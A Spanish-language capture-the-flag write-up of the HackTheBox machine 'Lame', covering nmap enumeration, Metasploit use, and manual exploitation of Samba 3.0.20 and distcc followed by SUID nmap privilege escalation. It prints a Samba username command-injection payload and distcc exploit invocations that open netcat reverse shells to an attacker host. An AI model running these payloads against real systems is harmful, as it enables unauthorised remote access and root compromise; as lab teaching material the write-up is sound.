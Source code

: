 ```yaml
---
layout: single
title: HackTheBox - Máquina Lame
excerpt: "Solución de la máquina Lame de Hack the Box"
date: 2021-03-18
classes: wide
header:
  teaser: /assets/images/htb/lame/lame.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Metasploit
---
```


<p align="center">
<img src="/assets/images/htb/lame/lame.png">
</p>

# Enumeración

Lanzamos un escaneo para ver los puertos que tiene abiertos y después lanzamos para obtener versiones y scripts básicos de nmap.

```bash
nmap -sS --min-rate 5000 -p- --open -T5 -v -n -Pn -oG allPorts 10.10.10.3

nmap -sV -sC -p21,22,139,445,3632 10.10.10.3 -oN targeted

```

Y obtenemos el siguiente resultado:

```text
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

# Explotación
Cuando empecé con esta máquina de HTB usé Metasploit por no tener experiencia. Cuando me propuse crear este contenido también empece a ver vídeos y streams de gente que se dedica al mundo de la Ciberseguridad para adquirir conocimientos. Viendo un vídeo acerca de esta máquina, vi que también se podía hacer de forma manual por lo que también lo voy hacer de esta forma para adquirir ese conocimiento.

Después de analizar el FTP mediante el acceso anónimo y ver que no hay nada disponible, analizamos *samba y el software distcc* como posible vector de ataque.

## Automática (Metasploit)

Buscamos la versión de samba 3.0.20 con searchsploit.

```bash
searchsploit samba 3.0.20
```

Y obtenemos el siguiente resultado:

```bash
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                   | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)                                                                            | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                            | linux_x86/dos/36741.py
--------------------------------------------------------------------------------------------------------------------------------------------------------- 
```

Abrimos metasploit y usamos `use exploit/multi/samba/usermap_script`. Configuramos las opciones con `show options` y el payload `show payload` (`cmd/unix/reverse`), el siguiente paso es ejecutar con `exploit` y obtenemos la reverse shell. Ya solo quedaría obtener la flag de usuario y de root, ya que de este modo somos root.

## Explotación Manual

Como he mencionado antes esta parte la vi en el writeup de s4vitar, por lo que voy a reproducirla para aprender de forma manual.

### Samba

Buscamos un script mediante `searchsploit samba 3.0 command execution` y obtenemos lo siguiente:

```bash
searchsploit samba 3. command execution
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)     | unix/remote/16320.rb
---------------------------------------------------------------------------------------------------------------------
```

Mediante `smbmap -H 10.10.10.3 ` vemos los permisos de los recursos compartidos de la máquina:

```bash
smbmap -H 10.10.10.3      
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Nos conectamos al directorio /tmp `smbclient //10.10.10.3/tmp --option="client min protocol=NT1" -N` utilizando null sesión, también hay que añadirle el parámetro --option ya que si no lo pones te saltara un error de autenticación.

Analizando el script vemos que hace un login con el siguiente usuario:

```bash
`username = "/=`nohup " + payload.encoded + "`"`
```

Estando conectado al recurso compartido, lanzamos un login con el siguiente formato para poder obtener una conexión vía netcat a nuestra máquina.

```bash
smb: \> logon "/=`nohup nc -e /bin/bash <ip_atacante> <puerto>`"
Password: (Damos enter)
```

### Distcc

Si hacemos un `searchsploit distcc` nos sale lo siguiente:

```bash
--------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                     |  Path
--------------------------------------------------------------------------------------------- ---------------------------------
DistCC Daemon - Command Execution (Metasploit)     | multiple/remote/9915.rb
--------------------------------------------------------------------------------------------- ---------------------------------
```
Como se puede ver hay un script pero es a través de Metasploit, para hacerlo de forma manual con [exploit github](https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py)

Ejecutamos con un whoami para probar:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c whoami
```

Cuando yo hice la prueba me daba el siguiente error:

```bash
[OK] Connected to remote service
a bytes-like object is required, not 'str'
[KO] Exception Raised
```

Por lo que tuve que editar para añadir el str.encode() y el decode en la siguientes variables:

<p align="center">
<img src="/assets/images/htb/lame/distcc_exploit.PNG">
</p>

Cuando el lanzamiento ha sido satisfactorio obtenemos por pantalla el usuario `daemon`, el siguiente paso es lanzar una shell hacia nuestra máquina:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c 'nohup nc -e /bin/bash <ip> <puerto> &'
```

<span style="color:#d7f798">[IMPORTANTE] El nohup se pone para que cuando se lanza un exploit que te da una sesión y se cierra, se quede en segundo plano en otro proceso. Cuando obtenemos la reverse shell hacemos el tratamiento de la shell.</span>

Desde la carpeta home hacemos la búsqueda de la flag de user.txt y la mostramos con:

```bash
find \-name user.txt 2>/dev/null | xargs cat
```

# Escalada de privilegios desde distcc

Para escalar privilegios en esta máquina hacemos uso de los suids:

```bash
find \-perm -4000 2>/dev/null
```
Para esta máquina vamos a usar <b>./usr/bin/nmap</b> para elevar privilegios, para ello usamos [GTFOBINS](https://gtfobins.github.io) para obtener una shell con el binario nmap. 

En GTFOBINS nos dice que hay dos maneras pero mirando la versión de nmap, se puede utilizar la b) The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands

```bash
daemon@lame:/$ nmap --version

Nmap version 4.53 ( http://insecure.org )
```

```bash
daemon@lame:/$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```

Y ya nos queda ver la flag de root.
